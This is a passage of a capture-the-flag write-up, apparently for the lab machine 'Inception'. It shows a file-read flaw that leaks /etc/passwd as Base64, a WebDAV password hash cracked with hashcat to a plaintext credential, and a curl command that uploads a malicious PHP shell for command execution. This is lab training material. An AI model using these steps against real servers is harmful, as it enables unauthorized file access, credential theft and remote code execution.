 After sending this request, it provides a PDF file with a long Base64-encoded string:
```markdown
cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL
```

Decoding the Base64 string:
```markdown
echo -n cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6ZGFlbW9uOi91c3Ivc2JpbjovdXNyL | base64 -d

# Output
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr
```

This is the beginning of the _/etc/passwd_ file so reading files on the system works. When intercepting the response with a proxy like **Burpsuite**, it shows the full Base64-encoded string and when decoding that, it also shows the username _cobb_.

I wrote a script to automate this process that can be found in this repository called **inception_file-read.py**. With this script it is easy to navigate the file system.

### Getting command execution

When looking through the **Apache2 configuration** the file _etc/apache2/sites-enabled/000-default.conf_ has some interesting information about another directory:
```markdown
(...)
<Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile /var/www/html/webdav_test_inception/webdav.passwd
(...)
```

The file _/var/www/html/webdav_test_inception/webdav.passwd_ contains a username and a hashed password:
> webdav_tester:$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0

So lets crack the hash with **Hashcat**:
```markdown
hashcat -m 1600 inception_webdav.hash /usr/share/wordlists/rockyou.txt
```

After a while the hash gets cracked:
> babygurl69

When browsing to _/webdav_test_inception_ it asks for the credentials and after providing them, the page responds with HTTP _403 Forbidden_ message.
As **WebDAV** is a protocol to create, change and move documents on a web server, we should try to upload a malicious PHP file:
```markdown
curl -vvv --upload-file cmd.php http://10.10.10.67/webdav_test_inception/cmd.php --user webdav_tester:babygurl69
```
